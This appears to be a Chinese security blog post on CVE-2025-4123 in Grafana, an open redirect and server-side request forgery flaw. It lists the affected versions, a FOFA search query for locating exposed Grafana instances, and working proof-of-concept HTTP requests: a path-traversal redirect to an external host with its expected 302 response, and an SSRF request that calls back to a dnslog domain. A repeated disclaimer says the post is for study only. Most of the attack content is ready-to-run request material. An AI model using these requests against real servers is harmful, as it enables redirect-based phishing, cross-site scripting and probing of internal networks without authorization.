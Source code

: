 #  Grafana开放重定向&服务端请求伪造漏洞(CVE-2025-4123)   
 HK安全小屋   2025-06-01 09:12  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
漏洞描述：  
  
Grafana是Grafana开源的一套提供可视化监控界面的开源监控工具。该工具主要用于监控和分析Graphite、InfluxDB和Prometheus等。Grafana存在安全漏洞，该漏洞源于客户端路径遍历和开放重定向结合，可能导致跨站脚本攻击。  
  
  
影响版本：  
```
8.0.0 ≤ grafana <10.4.18 
11.2.0 ≤ grafana <11.2.9 
11.3.0 ≤ grafana <11.3.6 
11.4.0 ≤ grafana <11.4.4 
11.5.0 ≤ grafana <11.5.4 
11.6.0 ≤ grafana <11.6.1 
12.0.0 ≤ grafana <12.0.1 
```  
  
  
FOFA:  
```
app="Grafana"
```  
  
  
POC：  
  
测试是否开放重定向  
```
GET /public/..%2F%5coast.pro%2F%3f%2F..%2F.. HTTP/1.1
Host: 127.0.0.1:8080
```  
  
如果返回内容如下则开放重定向：  
```
HTTP/1.1 302 Found
Content-Type: text/html; charset=utf-8
Location: /\oast.pro/?/../../
Date: Sun,1 Jun 2025 15:36:13 GMT
Content-length: 42

<a href="/\oast.pro/?/../../">Found</a>.
```  
  
服务端请求伪造：  
```
GET /render/public/..%252f%255C75desw.dnslog.cn%252f%253F%252f..%252f.. HTTP/1.1
Host: 127.0.0.1:8080
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI1NZB5q3WibHJtYt0zLMdxRaZsJNoicbH6cdTpyibtAweickdNnVFQiaoSqMfJcYfgYcQwucNRdFNhiadxw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
  
